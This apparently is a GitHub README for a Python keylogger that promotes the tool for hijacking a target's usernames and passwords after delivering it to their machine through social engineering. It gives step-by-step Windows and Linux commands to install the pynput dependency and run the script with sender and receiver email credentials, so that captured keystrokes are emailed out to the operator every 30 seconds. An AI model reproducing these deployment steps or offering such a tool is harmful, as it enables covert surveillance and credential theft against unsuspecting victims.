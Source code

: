 Keylogger is a tool that helps you when you try to capture your target's keystrokes on his/her keyboard. You can use it as a Username-Password hijacking tool when you upload this program as a executable file (via social engineering) to your target's machine.

USAGE: 

       1.1-) FOR WINDOWS: Open cmd and write this command -> cd Desktop
       1.2-) C:\Users\IEUser\Appdata\Local\Programs\Python\Python310\python.exe -m pip install pynput(First part is your python.exe's location change it properly                for your device python.exe location)      
       1.3-) After you install pynput library, run the KeyLogger with -> C:\Users\IEUser\Appdata\Local\Programs\Python\Python310\python.exe python3 MyKeyLogger.py                -m (Keylogger sender E-mail address) -t (Keylogger logs receiver E-mail address) -p (Sender E-mail adress' password)
       1.4-) After that, keylogger will capture all of the keystrokes on the target machine and will send E-mails that contains keystrokes from the target.
       
       2.1-) FOR LINUX: Open terminal and write this command -> pip3 install pynput
       1.2-) cd /root/PycharmProjects/Keylogger
       1.3-) python3 MyKeyLogger.py -m (Keylogger sender E-mail address) -t (Keylogger logs receiver E-mail address) -p (Sender E-mail adress'                                    password)
       1.4-) If you have any problem in LINUX do as follows : 
             sudo apt update
             sude apt install python3
             sudo apt-get install python3-dev
             sudo apt install python3-pip
 
And your program will run without any error.

IMPORTANT NOTE: The first mail on the receiver e-mail will be empty. Ignore it, the second mail will come after 30 seconds and will contain the keylogs of the target machine.
                            
                            
       
